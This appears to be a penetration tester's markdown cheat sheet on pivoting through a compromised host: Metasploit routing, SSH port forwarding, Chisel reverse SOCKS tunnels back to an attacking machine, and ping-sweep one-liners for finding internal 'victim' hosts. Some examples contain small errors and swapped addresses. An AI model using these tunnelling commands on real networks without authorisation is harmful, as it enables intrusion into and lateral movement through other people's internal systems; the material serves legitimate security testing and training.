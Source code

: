 # Routing
## In msfconsole
Autoroute (outside meterpreter session)
- Location: "/usr/share/metasploit-framework/modules/post/multi/manage/autoroute.rb"
```
run autoroute -s 10.10.10.0/20 3
```
route add (Inside meterpreter session)
- Location: "/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net/route.rb"
```
route add 10.10.10.0 255.255.255.0 1,2,3(session id)
```


# Proxy
## SSH Proxy
- Execute following command on the compromised machine
- Proxy service will be on port 4444 of the attacking machine(ssh executing machine)
-  Use either with proxychain sock4 or other alternatives
```
ssh -D 4444 compromised_machine@192.168.1.110
```

## Chisel Proxy
- Execute following command on the compromised machine
```
chisel server --socks5 --reverse
```
- Chisel server will be on port 8080 of the attacking machine(chisel command executing machine)
- Connect back from compromised machine via Fingerprint generated from server command
```
chisel client --fingerprint "       " 192.168.1.100:8080 R:socks
```
Booommm!!!


## Metasploit 

# SSH Port Forwarding 

## Discovering Alive Hosts from Compormised Machine
```
metasploit windows/gather/arp_scanner
```
### Window
powershell
```
1..254 | ForEach-Object { $ip = "192.168.1.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { Write-Output "$ip is reachable" } else { Write-Output "$ip is unreachable" } }
```

### Linux
```
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done;
```


# Important!!
- Please take note 192.168.1.100 as attacking machine(my machine) , 192.168.1.110 as compromised machine(victim 1), 192.168.2.100 as internal machine(victim 2)
## Direct 
- You want to access a web server running on 192.168.2.100 on port 80 through compromised machine 192.168.1.100
- Take note that !!! 8080 "-L 8080:" !!! is ssh command executing machine localhost port 
```
ssh -L 8080:192.168.2.100:80 compromised_machine@192.168.1.100
```

## Reverse

- You want to make a localhost port 80 of your "ssh command executing machine(attacking machine)192.168.1.100" accessible from 192.168.1.110(compromised machine) on port 8080.

```
ssh -R 8080:localhost:80 compromised_machine@192.168.1.100
```

# Chisel Port Forwarding
- First host a chisel server to listen on attacking machine
```
chisel server --sock5 --reverse
```
- Make magic in compromised machine(victim 1)
- Making the victim2's port 80 accessible from the attacking machine's port 8000 (Same as SSH -L) port forwarding
```
chisel client --fingerprint "fingerprint_generated_from_attacking_machine" 192.168.1.100:8080(ip and port of server) R:8000:192.168.2.100:80
```

